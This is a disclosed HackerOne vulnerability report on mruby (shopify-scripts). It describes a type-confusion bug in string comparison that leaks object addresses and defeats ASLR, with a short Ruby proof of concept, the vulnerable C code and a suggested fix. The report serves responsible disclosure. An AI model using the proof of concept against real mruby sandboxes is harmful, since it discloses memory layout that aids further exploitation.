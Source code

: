 # Controlled address leak due to type confusion - ASLR bypass

## Report Details
- **Report ID**: 207321
- **URL**: https://hackerone.com/reports/207321
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-18T13:26:29.063Z
- **Disclosed**: 2017-03-14T21:24:39.696Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There are several different places in which arguments are treated as fixnums without a prior check for their type. Since ```mrb_value``` is a union that holds all value types, it can cause a mixup between an object pointer and an integer value:
```cpp
typedef struct mrb_value {
  union {
    mrb_float f;
    void *p;
    mrb_int i;
    mrb_sym sym;
  } value;
  enum mrb_vtype tt;
} mrb_value;
```

PoC Script:
=======
```Ruby
class Integer
    def <=>(arg1)
        return arg1
    end
end

s = "hello"
s.<=>(1)
```
And the output varies between runs (because of ASLR) and between architecture (32/64 bit) and seems like this: ```-69972254725992``` meaning an address of: ```0x3fa3af631768```.

Vulnerable Code:
===========
The ```mrb_str_cmp_m``` function (```s.<=>()```) in ```string.c``` uses the ```<=>``` function of the argument, if the argument is not a string. That function can be overridden (like was demonstrated in the PoC), and the returned value is not checked to be a fixnum, while it is treated as a fixnum:
```cpp
  mrb_value str2;
  mrb_int result;

  mrb_get_args(mrb, "o", &str2);
  if (!mrb_string_p(str2)) {
    if (!mrb_respond_to(mrb, str2, mrb_intern_lit(mrb, "to_s"))) {
      return mrb_nil_value();
    }
    else if (!mrb_respond_to(mrb, str2, mrb_intern_lit(mrb, "<=>"))) {
      return mrb_nil_value();
    }
    else {
      mrb_value tmp = mrb_funcall(mrb, str2, "<=>", 1, str1);

      if (mrb_nil_p(tmp)) return mrb_nil_value();
      if (!mrb_fixnum(tmp)) {
        return mrb_funcall(mrb, mrb_fixnum_value(0), "-", 1, tmp);
      }
      result = -mrb_fixnum(tmp);
    }
  }
  else {
    result = mrb_str_cmp(mrb, str1, str2);
  }
  return mrb_fixnum_value(result);
```
This means that the PoC code gets ```tmp``` as the original string (since ```1.<=>(str1)``` returns ```str1```), and ```mrb_fixnum(tmp)``` will be the address of the string object. Since it is returned as ```-mrb_fixnum(tmp)``` our value was negative.

More minor examples:
------------------------
1. ```mrb_str_aref_m``` function in ```string.c``` does not check the fixnum's type. can cause only a very minor information-leak over the MSbit (pos < 0).
2. ```mrb_str_index``` function in ```string.c``` does not check the 2nd arg, but has no security implications.
3. ```mrb_str_rindex``` function in ```string.c``` does not check the 2nd arg, can again leak the MSbit of the address (again a vpos < 0 check).

Suggested Fix:
=========
Before the argument / returned value is treated as a fixnum, it should be checked to match it in type using the ```mrb_fixnum_p``` macro, or any other chosen way.

## Attachments
No attachments
